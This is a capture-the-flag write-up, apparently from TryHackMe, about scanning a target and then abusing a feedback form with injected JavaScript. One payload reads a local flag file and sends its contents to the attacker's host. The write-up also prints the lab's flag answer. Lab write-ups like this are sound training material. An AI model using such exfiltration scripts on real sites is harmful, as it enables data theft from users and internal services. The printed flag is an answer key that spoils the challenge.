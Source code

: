 On getting the target ip, as a tradition, i first conducted nmap analysis in which i found 4 ope ports. One was the current 8080, one was 22 and the other 2 were behind the firewalls. Moreover, i also conducted a directory enumeration p but did not find anything. I also tried to conduct a detailed nmap search for the services or vulnerabilites, but no use. Since we knew that both the client and the server are running on the same machine, it means that the server can be accessible in our local machine. There is a feedback form in which i tried to send a command to my server: 
bash```
<script>
  fetch('http://<YOUR_VPN_IP>:3000/flag.txt')
</script>
```
Before this, I ran my server locally using python [python -m http.server 3000]. On entering the payload in the feedback form, i received a response of 404 not found for the flag file. It means that i can send requests to my sever using this textarea input. So lets modify the payload in which i will try to fetch the flag file from the local running server and send it to my hosted server. The modified script will first fetch the flag file from the local server, if it successfully receives the flag file in the response, it will send it in the fetch request to my locally hosted server.
bash```
<script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<YOUR_VPN_IP>:3000/?flag=' + data);
    });
</script>
```
On submitting this payload, i recieved a request on my server in which the conents of the flag were available [THM{83789a69074f636f64a38879cfcabe8b62305ee6}].

